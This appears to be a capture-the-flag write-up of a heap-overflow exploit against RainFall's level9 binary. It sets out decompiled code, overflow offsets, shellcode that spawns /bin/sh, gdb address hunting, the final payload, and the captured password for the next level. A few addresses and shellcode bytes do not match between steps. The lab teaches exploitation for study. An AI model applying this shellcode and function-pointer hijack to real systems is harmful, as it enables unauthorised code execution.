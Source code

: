 ###  Walkthrough

```cpp
// Ghidra
void main(int param_1,int param_2)

{
  N *this;
  code **this_00;

  if (param_1 < 2) {
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  this = (N *)operator.new(0x6c);
  N(this,5);
  this_00 = (code **)operator.new(0x6c);
  N((N *)this_00,6);
  setAnnotation(this,*(char **)(param_2 + 4));
  (**(code **)*this_00)(this_00,this);
  return;
}
```

```cpp
// Retdec
// Address range: 0x80485f4 - 0x804869a
int main(int argc, char ** argv) {
    if (argc <= 1) {
        // 0x8048604
        _exit(1);
        // UNREACHABLE
    }
    int32_t * v1 = _Znwj(108); // 0x8048617
    _ZN1NC1Ei(v1, 5);
    int32_t * v2 = _Znwj(108); // 0x8048639
    _ZN1NC1Ei(v2, 6);
    _ZN1N13setAnnotationEPc(v1, (char *)*(int32_t *)((int32_t)argv + 4));
    return (int32_t)v2;
}
```

This level was one of the toughest for us...

<u>Here is how we managed to gain privileges :</u>

First, let's try understanding it's execution :

* The program takes one parameter.

* It then checks, according to Retdec and our tests, that argc > 1, otherwise it exits

* It then instantiates 2 objects, this and this00. These instantiations hide malloc instructions that happen in the heap, so their memory adresses may follow in memory.

```cpp
void __thiscall setAnnotation(N *this,char *param_1)
{
  size_t __n;

  __n = strlen(param_1);
  memcpy(this + 4,param_1,__n);
  return;
}
```

* If our argv[1] is +108 long, we begin to overflow `this` and start writing at the beginning of `this00`

The next important part before beginning our exploit is : 

```cpp 
  (**(code **)*this_00)(this_00,this);
```

This line is basically a function pointer on the value at the address of this_00.

So, in order to make it work, we first have to find the address of the `this` : 

```bash
level9@RainFall:~$ ltrace ./level9 yo
__libc_start_main(0x80485f4, 2, 0xbffff7a4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330)             = 0
_Znwj(108, 0xbffff7a4, 0xbffff7b0, 0xb7d79e55, 0xb7fed280)                        = 0x804a008
_Znwj(108, 5, 0xbffff7b0, 0xb7d79e55, 0xb7fed280)                                 = 0x804a078
strlen("yo")                                                                      = 2
memcpy(0x0804a00c, "yo", 2)                                                       = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c)           = 0xb7fce4a0
+++ exited (status 11) +++
```

Here, at this line : `memcpy(0x0804a00c, "yo", 2) = 0x0804a00c`, we see that the dest address of memcpy is `0x0804a00c`. If we check again on the source code, it's the address of the beginning of the data of our `this` object.

Then, we need to see the padding required, and check wether it worked :

```bash
level9@RainFall:~$ ./level9 `python -c 'print(108 * "A" + "BBBB")'`
Segmentation fault (core dumped)
level9@RainFall:~$ dmesg
...
[45298.046277] level9[10396]: segfault at 42424242 ip 08048682 sp bffff670 error 4 in level9[8048000+1000]
```

We find our "BBBB" string, this means that it worked.

After some trials and errors, in order to make it work, we stored our shellcode inside our environnement :

```bash
export SHELLCODE=`python -c 'print("\x90" * 30 + "\x31\xc0\xb0\x0b\xbb\x2f\x2f\x73\x68\xc1\xeb\x08\x53\xbb\x2f\x62\x69\x6e\x53\x89\xe3\x31\xc9\x31\xd2\xcd\x80")'`
```

We thus need to find it's address :

```bash
$ gdb ./level9
$ b *main
$ r
$ x/100x *environ
0xbffff887:	0x4c454853	0x444f434c	0x90903d45	0x90909090
0xbffff897:	0x90909090	0x90909090	0x90909090	0x90909090
0xbffff8a7:	0x90909090	0x90909090	0x6850c031	0x68732f2f
0xbffff8b7:	0x69622f68	0x50e3896e	0xb0e18953	0x0080cd0b
0xbffff8c7:	0x4c454853	0x622f3d4c	0x622f6e69	0x00687361
0xbffff8d7:	0x4d524554	0x6574783d	0x322d6d72	0x6f633635
0xbffff8e7:	0x00726f6c	0x5f485353	0x45494c43	0x313d544e
0xbffff8f7:	0x312e3239	0x352e3836	0x20312e36	0x36303336
0xbffff907:	0x32342035	0x53003234	0x545f4853	0x2f3d5954
0xbffff917:	0x2f766564	0x2f737470	0x53550031	0x6c3d5245
0xbffff927:	0x6c657665	0x534c0039	0x4c4f435f	0x3d53524f
0xbffff937:	0x303d7372	0x3d69643a	0x333b3130	0x6e6c3a34
0xbffff947:	0x3b31303d	0x6d3a3633	0x30303d68	0x3d69703a
0xbffff957:	0x333b3034	0x6f733a33	0x3b31303d	0x643a3533
0xbffff967:	0x31303d6f	0x3a35333b	0x343d6462	0x33333b30
0xbffff977:	0x3a31303b	0x343d6463	0x33333b30	0x3a31303b
0xbffff987:	0x343d726f	0x31333b30	0x3a31303b	0x333d7573
0xbffff997:	0x31343b37	0x3d67733a	0x343b3033	0x61633a33
0xbffff9a7:	0x3b30333d	0x743a3134	0x30333d77	0x3a32343b
0xbffff9b7:	0x333d776f	0x32343b34	0x3d74733a	0x343b3733
0xbffff9c7:	0x78653a34	0x3b31303d	0x2a3a3233	0x7261742e
0xbffff9d7:	0x3b31303d	0x2a3a3133	0x7a67742e	0x3b31303d
0xbffff9e7:	0x2a3a3133	0x6a72612e	0x3b31303d	0x2a3a3133
0xbffff9f7:	0x7a61742e	0x3b31303d	0x2a3a3133	0x687a6c2e
0xbffffa07:	0x3b31303d	0x2a3a3133	0x6d7a6c2e	0x31303d61
```

Select the address of one of the line containing our nop instructions : `0xbffff897` for example

We now have all the required infos, let's write our payload :

```bash
$ ./level9 `python -c 'print("\xa7\xf8\xff\xbf" * 2  + 88 * "A" + 4 * "\x0c\xa0\x04\x08")'`
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

```bash
su bonus0
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

